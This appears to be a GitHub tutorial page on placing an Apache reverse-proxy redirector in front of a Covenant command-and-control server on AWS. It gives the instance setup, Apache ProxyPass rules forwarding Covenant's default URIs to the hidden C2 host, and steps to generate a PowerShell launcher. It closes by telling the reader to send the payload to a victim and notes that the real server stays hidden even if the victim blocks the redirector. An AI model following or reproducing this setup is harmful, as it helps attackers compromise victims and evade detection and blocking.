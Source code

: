 # 🔁 C2 HTTP Redictor

## Install Linux Host (Redirector)

We have installed the Covenant C2 on AWS Windows Instance. Now we will use a different linux instance as our C2 redirector.

```
Click on Launch Instance

Enter a name under Names and Tags section

Select Ubuntu under Applications and OS Images section  

Generate a new key pair under Key pair (login) section

Select Allow HTTPS traffic from internet

Select Allow HTTP traffic from the internet

Click on Launch instance

```

## Connect to the instance using SSH

```
Click on Instance id 

Click on Connect  

Click on SSH Client tab

Copy the SSH command and paste it to the terminal

```

## Create a Listener on the C2 Server (AWS Windows Instance)

```
Open Covenenant C2 on the AWS windows instance

Click on Listener from the side menu

Click on Create button

Enter a Name

Change the ConnectAddress field to the redirector public IP (AWS Linux public ip address)

Select CustomHttpProfile under HttpProfile Section

Click on Create
```

## Setting up HTTP server (Redirector Machine)

```
sudo apt install apache2

sudo a2enmod rewrite proxy proxy_http proxy_connect

a2ensite 000-default.conf

sudo service apache2 restart

```

## Changing the configuration file (Redirector Machine)

```
nano /etc/apache2/sites-available/000-default.conf

# Add the below lines after CustomLog line

ProxyRequests Off
ProxyPass /en-us/index.html http://<C2 Server IP>/en-us/index.html
ProxyPassReverse /en-us/index.html http://<C2 Server IP>/en-us/index.html
ProxyPass /en-us/docs.html http://<C2 Server IP>//en-us/docs.html
ProxyPassReverse /en-us/docs.html http://<C2 Server IP>//en-us/docs.html
ProxyPass /en-us/test.html http://<C2 Server IP>//en-us/test.html
ProxyPassReverse /en-us/test.html http://<C2 Server IP>//en-us/test.html

# Save and Restart Apache2 
service apache2 restart

```

**Note:** The links such as _/en-us/index.html_ are the default links generated by covenant C2. You can view the links from:

```
Listeners -> Profiles -> CustomHttpProfile
```

## Testing the C2 Server with HTTP Redierctor Setup

### Generate a powershell launcher

```
In the covenant C2 go to Launchers tab

Select Powershell

Select the listener from the drop down menu

Click on Generate

Send the payload to the victim and when the victim runs the payload we will be able to get the connection back.
```

## End

When the victim runs the netstat command, he will only see the redirector ip address, when he visits that ip address it will show the default apache2 webpage. Now the real C2 is hidden from victim and even if victim blocks the redirector ip address then we can use an another machine as a redirector.
